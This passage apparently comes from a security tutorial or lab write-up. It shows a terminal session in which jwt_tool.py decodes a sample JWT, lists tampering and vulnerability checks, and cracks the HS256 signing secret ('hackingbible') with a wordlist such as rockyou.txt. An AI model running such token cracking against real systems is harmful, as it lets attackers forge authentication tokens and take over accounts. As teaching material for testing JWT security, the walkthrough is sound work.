 you can also use `rockyou.txt` or there are lots of wordlists present on the internet.

```bash
$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjphbmFzfQ.Tr0VvdP6rVBGBGuI_luxGCOaz6BbhC6IxRTlKOW8UjM

=====================
Decoded Token Values:
=====================

Token header values:
[+] typ = JWT
[+] alg = HS256

Token payload values:
[+] user = anas

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------


########################################################
#  Options:                                            #
#                ==== TAMPERING ====                   #
#  1: Tamper with JWT data (multiple signing options)  #
#                                                      #
#             ==== VULNERABILITIES ====                #
#  2: Check for the "none" algorithm vulnerability     #
#  3: Check for HS/RSA key confusion vulnerability     #
#  4: Check for JWKS key injection vulnerability       #
#                                                      #
#            ==== CRACKING/GUESSING ====               #
#  5: Check HS signature against a key (password)      #
#  6: Check HS signature against key file              #
#  7: Crack signature with supplied dictionary file    #
#                                                      #
#            ==== RSA KEY FUNCTIONS ====               #
#  8: Verify RSA signature against a Public Key        #
#                                                      #
#  0: Quit                                             #
########################################################

Please make a selection (1-6)
> 7
Please provide filename for dictionary file.

> wordlist.txt

Loading key dictionary...
File loaded: wordlist.txt
Testing passwords in dictionary...

[+] hackingbible is the CORRECT key!
```
